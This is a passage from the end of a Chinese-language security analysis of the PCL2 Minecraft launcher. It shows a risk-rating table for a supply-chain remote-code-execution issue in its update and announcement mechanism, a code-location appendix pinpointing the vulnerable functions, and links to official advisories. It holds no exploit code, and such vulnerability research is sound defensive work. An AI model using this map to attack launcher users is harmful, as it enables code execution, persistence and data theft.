- 随后对任意 `DownloadUrls` 的 `.zip` 下载；
- 证书异常（非腾讯云/非官方 CA）；
- DNS 解析异常。

### 7.3 修复建议

请更换更有信任的更新机制。

### 7.4 披露建议

无。

### 7.5 风险评级

| 维度 | 评估 |
|---|---|
| 严重性 | High / 供应链级 RCE |
| 攻击向量 | 网络（CDN 内容、DNS、TLS 中间人） |
| 前提 | 控制公告 CDN 内容，或能让系统信任攻击者证书 |
| 用户交互 | `update` 仅需正常关闭 PCL；`launch` 需一次点击 |
| 影响 | 当前用户权限任意代码执行、持久化、数据窃取、批量控制 |
| 检测难度 | 中高：无文件落地也可通过 `PCL\Plain Craft Launcher 2.exe` 暂存发现；日志有特征 |

## 8. 附录<a id="footnotes" ></a>

### A. 关键代码位置

| 功能 | 文件:行 |
|---|---|
| `ServerLoader` 定义 | `PCL/ModSecret.cs:382` |
| `ServerSub` 公告主流程 | `PCL/ModSecret.cs:1262` |
| `notice.cfg` 拉取 | `PCL/ModSecret.cs:1324` |
| `ServerConfig.json` 拉取 | `PCL/ModSecret.cs:1382` |
| `notice.json` 拉取/缓存 | `PCL/ModSecret.cs:1403-1406` |
| `actions` 分发 | `PCL/ModSecret.cs:1479-1534` |
| `setup` 任意设置 | `PCL/ModSecret.cs:1495-1502` |
| `HasUpdatePermission => true` | `PCL/ModSecret.cs:402` |
| `UpdateStart` | `PCL/ModSecret.cs:957` |
| 更新 URL 选择 | `PCL/ModSecret.cs:1004-1026` |
| zip 解压/安装 | `PCL/ModSecret.cs:190-211` |
| `UpdateRestart` | `PCL/ModSecret.cs:1084-1097` |
| `LaunchAdvanceRun` 执行 | `PCL/ModLaunch.cs:2865-2925` |
| 自定义主页加载 | `PCL/PageLaunchRight.cs:385-419` |
| XAML 黑名单 | `PCL/ModBase.cs:1418-1447` |
| 自定义事件执行命令 | `PCL/CustomEvent.cs:129-150` |
| 事件确认绕过 | `PCL/CustomEvent.cs:455-470` |
| 设置默认值 | `PCL/Settings.cs:141-175, 246-249, 315-320` |
| 遥测 | `PCL/ModMain.cs:1807-1837` |


### B. 官方来源

- 仓库：<https://github.com/Hex-Dragon/PCL2>
- commit 提交：`6b9a50df911c9d68b69b24c979efba477fb14b67`（`2.99.0.0 正式版`）
- 相关安全公告：
  - <https://github.com/Meloong-Git/PCL/security/advisories/GHSA-wfpw-hfcp-9m73>（自定义主页 WebBrowser，CVE-2025-31488）
  - <https://github.com/Meloong-Git/PCL/security/advisories/GHSA-x9wr-mgmx-3hqp>（xmlns 过滤绕过）
  - <https://github.com/Meloong-Git/PCL/security/advisories/GHSA-gp33-rfmf-5f38>（ZipSlip）
  - <https://github.com/Meloong-Git/PCL/security/advisories/GHSA-22mj-jjhv-rxm4>（日志泄露 AccessToken）
